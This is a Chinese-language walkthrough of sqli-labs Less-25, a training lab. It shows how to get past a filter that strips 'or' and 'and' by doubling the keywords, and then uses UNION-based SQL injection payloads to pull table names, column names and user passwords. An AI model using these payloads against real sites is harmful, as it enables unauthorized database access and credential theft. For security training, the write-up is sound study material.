 ```yaml
---
title: less25
url: https://www.yuque.com/u29002979/ep2zrx/qtim2f7q089hwsoz
---
```


```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

$id= preg_replace('/or/i',"", $id);			
$id= preg_replace('/AND/i',"", $id);
```

> Alll Your 'OR' and AND' belong to us.

'and','or'和'AND','OR'被**过滤** <a name="VYZoO"></a>

# 检查注入点

`?id=1'`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-25\index.php** on line **37**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

可看出是**单引号'**闭合 <a name="ua3BP"></a>

# 测试字段数

`1' order by 4 --+`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-25\index.php** on line **37**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'der by 4-- ' LIMIT 0,1' at line 1

or被过滤了。换大写试试。
`1' ORder by 4 --+`
同样的报错，看来大写也被过滤了。试试双写or 'oorr'
`1' oorrder by 4--+`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-25\index.php** on line **37**
> Unknown column '4' in 'order clause'

没有第4列
`1' oorrder by 3--+`返回正常
有3个字段。

<a name="tls7t"></a>

# 检查回显点

`-1' union select 1,2,3-- +`
显示2，3是回显点 <a name="DJ9KV"></a>

# 爆破数据库名称

`-1' union select 1,2,(select database())-- +` <a name="yJOW1"></a>

# 爆破数据表

`-1' union select 1,2,(select group_concat(table_name) from info**or**rmation_schema.tables where table_schema=database())--+` <a name="za0hf"></a>

# 爆破字段名称

`-1' union select 1,2,(select group_concat(column_name) form info**or**rmation_schema.cloumns where table_schema=database() and table_name='users')--+`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-25\index.php** on line **37**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'table\_name='users')-- ' LIMIT 0,1' at line 1

and 被过滤了，双写and    'aandnd'
`-1' union select 1,2,(select group_concat(column_name) from info**or**rmation_schema.columns where table_schema=database() a**and**nd table_name='users')--+` <a name="qEq7I"></a>

# 爆破字段内容

`-1' union select 1,2,(select group_concat(username,0x7e,passwo**or**rd) from users)--+`
